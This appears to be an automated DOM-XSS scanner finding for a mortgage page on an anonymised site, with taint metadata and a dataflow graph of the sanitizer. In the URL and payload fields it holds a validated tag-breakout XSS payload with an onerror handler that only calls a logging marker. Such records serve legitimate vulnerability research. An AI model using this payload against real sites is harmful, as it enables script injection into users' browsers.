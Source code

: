 // Finding: bb3121e8-3eb3-4a69-a770-465596e560ba
// Finding.url: https://www.example377.com/mortgage/home-loan/#src=w_gnav_menu_integrated##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2bee71e85afb4990820438bd272a991f')><!--/*
// Finding.parentloc: https://www.example377.com/mortgage/home-loan/#src=w_gnav_menu_integrated##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('2bee71e85afb4990820438bd272a991f')><!--/*
// Finding.domain: www.example377.com
// Finding.base_domain: example377.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: o/<
// Sanitizer.location: https://static-mortgage.rdc.example378.com/_next/static/chunks/18296534755dd6d449f7c50dd34f4e1c8ed1e440.dc9d5e7ff7231cad9205.js - o:1:10932
// Finding.begin: 47
// Finding.end: 51
// Finding.original_uuid: 3735b7bd-2d77-4cbe-bf9d-51569b2be20e
// Finding.TwentyFiveMillionFlowsId: -1069612269
// Finding.script: https://www.example379.com/dist/jquery-2.2.4.min.js
// Finding.line: 3
// Exploit.uuid: 2bee71e8-5afb-4990-8204-38bd272a991f
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: value
// Exploit.quote_type: "
// Exploit.tag: input
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 8
// Exploit.end_taint_url: 9
// Exploit.replace_begin_url: 70
// Exploit.replace_end_url: 70
// Exploit.replace_begin_param: 47
// Exploit.replace_end_param: 47
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1579065741
// DepGraph.sanitizer_hash: 1579065741

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: ="];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="decodeURIComponent"];
n5 [shape=box, label="Var: x"];
n6 [shape=ellipse, label="preg_replace"];
n7 [shape=box, label="RegExp: /\//"];
n8 [shape=box, label="Lit: "];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Var: x"];
n11 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n5 -> n1;
n4 -> n5;
n9 -> n4;
n6 -> n7;
n6 -> n8;
n6 -> n9;
n10 -> n6;
n11 -> n10;
}